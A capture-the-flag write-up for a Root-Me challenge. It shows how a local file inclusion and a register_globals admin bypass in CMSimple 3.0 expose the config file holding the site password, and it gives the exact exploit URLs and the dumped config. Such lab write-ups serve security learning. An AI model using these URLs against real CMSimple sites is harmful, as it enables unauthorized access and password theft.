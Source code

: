 The challenge states that CMSimple has been used to configure the server. I invite you to download the code source of the used CMSimple : https://www.cmsimple.org/archives/cmsimple_old/?download=cmsimple3_0.zip

We see that the password is contained in the config.php file. That is what we are going to try to obtain.
Then, after looking for CMSimple 3.0 exploit, I saw that LFI was possible by adding an argument ?sl=FILE, file being a path, so ../ are allowed. So for example, if you want to include the adm.php file, you can enter the following address:

http://challenge01.root-me.org/realiste/ch6/?sl=../adm

Register_globals is on, so we can pass a lot of arguments in the URL. For example, we can put &adm=1, so we are seen as an admin.
Then, we see that we can print any file by passing the argument &f=file&file=YOUR_FILE&action=view.

Let's do it for the config file. The final URL is
http://challenge01.root-me.org/realiste/ch6/?sl=../adm&adm=1&f=file&file=config&action=view

and we see:

```
<?php
$cf['security']['password']="FLAG";
$cf['security']['type']="page";
$cf['site']['title']="So easy to p0wn !";
$cf['site']['template']="default";
$cf['language']['default']="en";
$cf['meta']['keywords']="mpffff, so weak";
$cf['meta']['description']="CMSimple is a simple content management system for idiot maintainance of small commercial or private sites. It is simple - small - idiot !";
$cf['backup']['numberoffiles']="5";
$cf['images']['maxsize']="150000";
$cf['downloads']['maxsize']="1000000";
$cf['mailform']['email']="";
$cf['editor']['height']="(screen.availHeight)-400";
$cf['editor']['external']="";
$cf['menu']['color']="000000";
$cf['menu']['highlightcolor']="808080";
$cf['menu']['levels']="3";
$cf['menu']['levelcatch']="10";
$cf['menu']['sdoc']="";
$cf['uri']['seperator']=":";
$cf['uri']['length']="200";
$cf['xhtml']['endtags']="";
$cf['xhtml']['amp']="true";
$cf['plugins']['folder']="";
$cf['functions']['file']="functions.php";
$cf['scripting']['regexp']="\#CMSimple (.*?)\#";
?>
```

GG ! You have the flag.
